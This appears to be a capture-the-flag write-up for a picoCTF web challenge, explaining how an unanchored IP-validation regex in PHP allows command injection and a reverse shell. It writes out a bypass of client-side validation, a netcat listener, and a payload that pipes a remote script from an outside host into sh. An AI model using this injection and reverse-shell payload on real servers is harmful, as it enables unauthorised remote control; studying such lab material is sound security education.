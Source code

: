 ## fancy-alive-monitoring - Points: 400
>One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell.picoctf.com:8587?

Note.
>The CTF server somehow blocked the outbound connection to non-standard ports. So on our own server, we need to listen on port 80, `sudo nc -lvp 80`.

The main purpose of this blog post is to demonstrate how to get a webshell from a web server.

A few facts about Webshell,

- Webshell, as its name indicates, is to obtain a shell by means of a website.

  This diffs from how shell is usually accessed, which is either remotely via SSH, or log in directly in a server's console.

- A shell can be either a Linux shell, like Bash/Zsh, etc., or a command prompt from Windows.


Of course, above is my understanding of what a Webshell is, and what I believe the term "Webshell' should represent, not authoritative, but should be close.

A Webshell can be utilized to serve different purposes. It can be used to gain complete control of a web server; to search for sensetive information on the server; or to be used as a outpost to gather further information that can help to infiltrate other parts of the infrastructure that share the same network as the web server, etc. etc.

Ok, let us back to our main business.

First of all, the server code is published on the challenge's website.

A few points to note,

- The `check()` function in the embedded javascript is doing a validation check against the IP address user inputted.

  Some interesting methods I read from other writeups to circumvent it,

  - we can send a HTTP POST request directly to the web server, thus bypassing the javascript validation.
  - or we can simiply replace the `check()` function in the `Console` inside the developer tool of a browser, with the following,

  ```javascript
  function check(){
    document.getElementById("monitor").submit();
  }
  ```

  That is, when the `Go!` button is clicked, the `check()` function will be calling `.submit()` right away to submit the form, without doing any validation against the input.

- After the data is posted to the server, there is a second check being performed.

`preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)`
  This check looks more promising, it does a decent job validating the IP address, which doesn't seem to expose any holes for exploitation.
  However, if we look more colsely, the regex doesn't end with a anchor `$`. That means as long as the data begins with a valid IP address, the data will be considered valid. This is where makes it vulnerable.
  
Since the symbol `;` can be used in PHP to chain the commands, if the payload of the POST request is `1.1.1.1 ; command`, then we can actually trick PHP to execute the command on the web sever!

Here, we will use the command to get a reverse shell from the web server, so the complete payload looks like, 

`1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh`

`https://shell.now.sh` is a HTTP endpoint that accept an `IP:PORT` as a path parameter, that the web server will be connecting to.

In this demo, the machine to which the IP is attached is controlled by me, and the goal here is to instruct the web server to proactively connect to the `IP:PORT`, and present a shell on my machine, as if I am just SSH'ed into it.

To achieve that, we just do,

1. On my own machine, run `nc -lvp 80` to instruct it to listen on port 80.
1. Fire up `Console` in the developer tool, change the `check()` function to what just shown above.
1. Type in `1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh` in the text box of the challenge website.
1. Back to `Console`, key in `check();` and press Enter.


